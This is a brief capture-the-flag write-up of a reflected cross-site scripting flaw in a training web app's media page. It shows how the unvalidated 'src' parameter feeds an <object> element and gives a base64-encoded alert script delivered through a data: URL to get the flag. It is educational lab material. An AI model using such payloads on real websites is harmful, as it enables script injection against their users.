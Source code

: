 ## Reflected Cross Site Scripting (XSS)

# Vulnerability
* See `http://[host]/?page=media&src=nsa`
* Modify `src` parameter
* See that it updates without validation an `<object>` element (The HTML 
<object> element represents an external resource, which can be treated as an 
image, a nested browsing context, or a resource to be handled by a plugin.)
```
<object data="[input]"></object>
```
* Base64 encode a malicious script
```
echo -e "<script>alert('42')</script>" | base64
```
It outputs `PHNjcmlwdD5hbGVydCgnNDInKTwvc2NyaXB0Pgo=`
* Visit `http://[host]/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnNDInKTwvc2NyaXB0Pgo=`
* Get the flag

# Attack

# Reference
https://owasp.org/www-community/attacks/xss/

